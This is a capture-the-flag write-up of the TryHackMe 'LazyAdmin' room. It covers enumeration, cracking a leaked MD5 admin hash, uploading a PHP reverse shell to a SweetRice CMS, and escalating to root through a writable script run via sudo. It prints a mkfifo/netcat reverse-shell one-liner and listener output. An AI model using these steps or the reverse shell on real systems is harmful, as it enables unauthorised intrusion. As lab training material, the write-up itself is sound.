








# LazyAdmin
**Date:** October 12th 2022

**Author:** j.info

**Link:** [**LazyAdmin**](https://tryhackme.com/room/lazyadmin) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- What is the user flag?
- What is the root flag?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 11321]
/content              (Status: 200) [Size: 2199]
```

Further scanning on /content:

```
/index.php            (Status: 200) [Size: 2198]
/license.txt          (Status: 200) [Size: 15410]
/inc                  (Status: 200) [Size: 6684]
/js                   (Status: 200) [Size: 1776]
/images               (Status: 200) [Size: 3443]
/changelog.txt        (Status: 200) [Size: 18013]
/as                   (Status: 200) [Size: 3667]
/_themes              (Status: 200) [Size: 963]
/attachment           (Status: 200) [Size: 773]
```

<br>

## Website Digging

Visiting the main page takes us to a default uncofigured Apache2 page.

Visiting /content shows us they're using the SweetRice CMS, but it isn't fully setup yet:



Looking at /content/changelog.txt shows us the version it's running:

```
#############################################
SweetRice - Simple Website Management System
Version 1.5.0
Author:Hiler Liu steelcal@gmail.com
Home page:http://www.basic-cms.org/
#############################################
```

Looking at /content/as shows us the login page:



In /content/inc we find a mysql_backup folder with a .sql database in it that we can download.



Looking closely on line 79 we see the following:

```
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

In there we see a password hash which appears to be an md5 hash for the user manager:

```
"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\
```

Running that through hashcat cracks the password quickly:

`hashcat -m 0 -w 3 -D 1,2 "42f749ade7f9e195bf475f37a44cafcb" rockyou.txt`

```
42f749ade7f9e195bf475f37a44cafcb:<REDACTED>

Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 42f749ade7f9e195bf475f37a44cafcb
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```

Heading back over to the login page at /content/as I try and login with these credentials and it works:



Going through the menu options on the left under Setting -> General we see the database settings with a username and password. We can't access the port externally but we may be able to login to this once we get system access:



We see a Media Center option in the menu which lets you upload files. I try and upload a .php and it doesn't work, but I am able to upload a .php5 file. This is your standard pentestmonkey reverse php shell:



<br>

## System Access

I set up a listener on my home system and click the p.php5 file that was uplaoded which gives me a shell back:

```
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.78.215] 44186
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 03:14:08 up  1:09,  0 users,  load average: 0.07, 0.09, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1061): Inappropriate ioctl for device
bash: no job control in this shell
www-data@THM-Chal:/$
```

Fixing my shell:

```
www-data@THM-Chal:/$ which python3
which python3
/usr/bin/python3
www-data@THM-Chal:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@THM-Chal:/$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                              
┌──(kali㉿kali)-[~/work]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@THM-Chal:/$ export TERM=xterm-256color
```

<br>

## System Enumeration

I'm able to login to the SQL database that we saw on the website:

`mysql -h localhost -u rice -p`

```
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 57
Server version: 5.7.28-0ubuntu0.16.04.2 (Ubuntu)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| website            |
+--------------------+
5 rows in set (0.00 sec)

mysql>
```

We can find password hashes in mysql -> users but we already have the rice user and don't find anything else.

Looking in the /home directory shows us that only the user itguy has a folder.

In his folder we see our user.txt flag:

`wc -c /home/itguy/user.txt`

```
38 /home/itguy/user.txt
```

We also see this file:

```
-rw-rw-r--  1 itguy itguy   16 Nov 29  2019 mysql_login.txt
```

And looking at it gives us the login/pass we already found:

```
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt 
rice:randompass
```

Looking for SUID files with `find / -perm /4000 2>/dev/null` doesn't give us anything out of the ordinary.

Running a recursive getcap search with `getcap -r / 2>/dev/null` also comes up with nothing strange.

Checking `sudo -l` shows us we have access to the following:

```
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Looking at the backup.pl script:

```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

So it calls /etc/copy.sh when you run it. Let's look at that:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Well that was nice of them, they already have a standard mkfifo reverse shell set up. Let's see if we can just edit it to our IP:

```
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

Bingo. Since we can run the backup.pl as root, and backup.pl calls copy.sh which we can edit, that essentially means we can put anything we want in copy.sh and run it as root.

<br>

## Root

I set up a listener on my system and change the copy.sh file to my IP address instead of what was listed and then run it with:

`sudo /usr/bin/perl /home/itguy/backup.pl`

```
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.78.215] 44218
# whoami
root
# hostname
THM-Chal
```

In the /root directory we see our root.txt flag:

`wc -c /root/root.txt`

```
38 /root/root.txt
```

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Discovering a publicly accessible **sql database backup** that contains a username and password hash
- Cracking the password hash with **hashcat**
- Logging into the SweetRic CMS with the credentials we've found
- Finding a page in the admin panel that allows **file uploads** and uploading a **php reverse shell** to it for our intial foothold on the system
- Exploring the **MySQL** database with credentials found inside the CMS
- Having access to run a **perl backup script as root** and finding that the backup script **calls another script which we have write access to**
- Editing the other script to **mkfifo reverse shell** back to us and then running the perl backup script to escalate to root

<br>

Many thanks to:
- [**MrSeth6797**](https://tryhackme.com/p/MrSeth6797) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)